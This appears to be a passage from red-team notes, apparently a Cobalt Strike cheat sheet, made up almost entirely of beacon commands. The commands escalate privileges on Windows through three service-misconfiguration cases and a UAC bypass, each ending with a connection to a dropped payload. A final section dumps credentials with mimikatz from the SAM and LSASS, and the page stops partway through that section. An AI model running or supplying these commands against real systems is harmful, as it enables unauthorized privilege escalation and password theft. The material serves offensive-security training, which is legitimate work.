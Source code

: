 ```powershell
beacon> run sc stop VulnService1
beacon> run sc start VulnService1

# Use SharpUp to find exploitable services
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit

# CASE 1: Unquoted Service Path (Hijack the service binary search logic to execute our payload)
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
beacon> cd C:\Program Files\Vulnerable Services
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> run sc stop VulnService1
beacon> run sc start VulnService1
beacon> connect localhost 4444

# CASE 2: Weak Service Permission (Possible to modify service configuration)
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
beacon> run sc qc VulnService2
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
beacon> run sc qc VulnService2
beacon> run sc stop VulnService2
beacon> run sc start VulnService2
beacon> connect localhost 4444

# CASE 3: Weak Service Binary Permission (Overwite the service binary due to weak permission)
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
PS C:\Payloads> copy "tcp-local_x64.svc.exe" "Service 3.exe"
beacon> run sc stop VulnService3
beacon> cd "C:\Program Files\Vulnerable Services"
beacon> upload C:\Payloads\Service 3.exe
beacon> run sc start VulnService3
beacon> connect localhost 4444

# UAC Bypass
beacon> run whoami /groups
beacon> elevate uac-schtasks tcp-local
beacon> run netstat -anop tcp
beacon> connect localhost 4444
```
## Credential Theft
```powershell
# "!" symbol is used to run command in elevated context of System User
# "@" symbol is used to impersonate beacon thread token

# Dump the local SAM database
beacon> mimikatz !lsadump::sam

# Dump the logon passwords (Plain Text + Hashes) from LSASS.exe for currently logged on users
beacon> mimikatz !sekurlsa::logonpasswords

# Dump the encryption keys used by Kerberos of logged on users (hashes incorrectly labelled as des_cbc_md4)
beacon> mimikatz !sekurlsa::ekeys

# Dump Domain Cached Credentials (cannotbe be used for lateral movement unless cracked)
```